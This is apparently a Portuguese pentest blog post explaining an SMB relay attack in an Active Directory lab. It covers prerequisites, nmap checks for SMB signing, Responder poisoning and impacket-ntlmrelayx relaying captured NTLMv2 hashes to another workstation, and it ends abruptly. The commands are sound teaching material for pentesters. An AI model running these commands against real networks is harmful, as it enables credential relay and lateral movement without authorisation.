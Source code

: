```yaml
---
title: "SMB Relay Attack"
#date: 2022-10-01T18:13:02+01:00
draft: false
tags:
  - Active Directory
  - Poisoning & Spoofing
  - NTLMV2
  - MITM
  - SMB
---
```


## Definição

Em vez de capturarmos as _hashes_ e tentarmos extrair a password podendo não existir sucesso devido à sua complexidade.
Este ataque usa a _hash_ capturada e encaminha para ganhar acesso noutra maquina, fazendo _relay_ da _hash_.
Em caso de sucesso este ataque é usado para movimentação lateral dentro de um dominio.

## Cenário

O cenário é constituido por duas _workstations_ em que o utilizador José Cid é _local administrator_ nas duas maquinas (WS01 e WS02).
O _SMB Signing_ encontra-se desabilitado.

![](CenarioSMBRelay.jpg#center)

### Requisitos

Para que este ataque seja possivel, o ambiente tem de ter os seguintes requisitos:

- _SMB Signing_ _disabled_;
- O utilizador tem de ser administrator local das maquinas envolvidas.

## Enumeração

### SMB Signing Disabled

O primeiro passo é verificar se o _SMB Signing_ está inactivo e para isso usaremos o nmap com o comando abaixo:

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>

```

ou

```bash

nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>/<CIDR>

```

Podemos verificar que está activo mas não obrigatório o seu uso.

![](smbrecon.png#center)

## Exploração (PoC)

### Configuração do _responder_

Como o objectivo é reenviar a _hash_ que iremos receber para outra workstation iremos configurar o _responder_ .
Teremos que desabilitar

```bash
sudo vi /etc/responder/Responder.conf
```

![](smbrelayresponderconfig.png)

```bash
sudo responder -I eth0 -wdv

```

![](smbrelayresponderrunning.png)

De seguida iremos utilizar uma ferramenta da _impacket_ para fazer relay da _hash_ para a outra máquina com o objectivo de ganharmos acesso sobre a mesma.

impacket-ntlmrelayx -smb2support -t 192.168.0.102

[LLMNR](/posts/ad_llmnr/)
